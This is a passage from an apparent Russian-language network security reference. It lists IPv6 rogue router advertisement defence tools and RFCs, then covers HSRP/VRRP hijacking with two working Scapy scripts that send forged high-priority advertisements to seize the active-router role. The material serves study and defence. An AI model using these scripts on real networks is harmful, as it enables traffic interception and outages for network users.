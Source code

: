 * [Ramond](http://ramond.sourceforge.net/)  
Позволяет добавить в белый список MAC-адреса определенных легитимных маршрутизаторов, префикс, используемый для 6to4, и неизвестные префиксы. На основе этой конфигурации инструмент осуществляет мониторинг RA-трафика с целью поиска неавторизованных маршрутизаторов.

* [6MoN](https://www.6monplus.it/)  
Позволяет контролировать состояние сети, наблюдать за процессом DAD и сообщениями NS. DAD означает Duplicate Address Discovery и определяет наличие конфликта дублирования адресов в сети. NS означает Neighbor Solicitation (ICMPv6 тип 135) и используется для определения соседа по каналу связи.

> Related RFCs   
[RFC 6104 - Rogue IPv6 Router Advertisement Problem Statement](https://tools.ietf.org/html/rfc6104)  
[RFC 6105 - IPv6 Router Advertisement Guard](https://tools.ietf.org/html/rfc6105)  
[RFC 3736 - Stateless Dynamic Host Configuration Protocol (DHCP) Service for IPv6](https://tools.ietf.org/html/rfc3736)  
[RFC 4862 - IPv6 Stateless Address Autoconfiguration (SLAAC)](https://tools.ietf.org/html/rfc4862)  
[RFC 7113 - Implementation Advice for IPv6 Router Advertisement Guard (RA-Guard)](https://tools.ietf.org/html/rfc7113)  
[RFC 8021 - Generation of IPv6 Atomic Fragments Considered Harmful](https://tools.ietf.org/html/rfc8021)  

> Other useful related links  
[Windows machines compromised by default configuration flaw in IPv6](https://resources.infosecinstitute.com/slaac-attack/)  
[Why You Must Use ICMPv6 Router Advertisements](https://community.infoblox.com/t5/IPv6-CoE-Blog/Why-You-Must-Use-ICMPv6-Router-Advertisements-RAs/ba-p/3416)  

### Перехват HSRP (VRRP, CARP)
**Сложность:** Высокая  
**Актуальность:** Высокая  
**Описание:**  
**Инструменты атаки**.
Scapy - самый простой способ создания PoC и перехвата статуса активного узла:

For HSRP:
```python
#!/usr/bin/env python
from scapy.all import *

if __name__ == "__main__":
    ip = IP(src="10.0.0.100", dst="224.0.0.2")
    udp = UDP(sport=1985, dport=1985)
    hsrp = HSRP(group=1, priority=150, virtualIP="10.0.0.1", auth="cisco")
    send(ip/udp/hsrp, iface="eth1", inter=3, loop=1)
```

For VRRP:
```python
#!/usr/bin/env python
from scapy.all import *

if __name__ == "__main__":
    ip = IP(src="10.0.0.100", dst="224.0.0.2")
    udp = UDP()
    vrrp = VRRP(vrid=1, priority=150, addrlist=["10.0.0.7", "10.0.0.8"], ipcount=2, auth1='cisco')
    send(ip/udp/vrrp, iface="eth1", inter=3, loop=1)
```
**Техника защиты**  
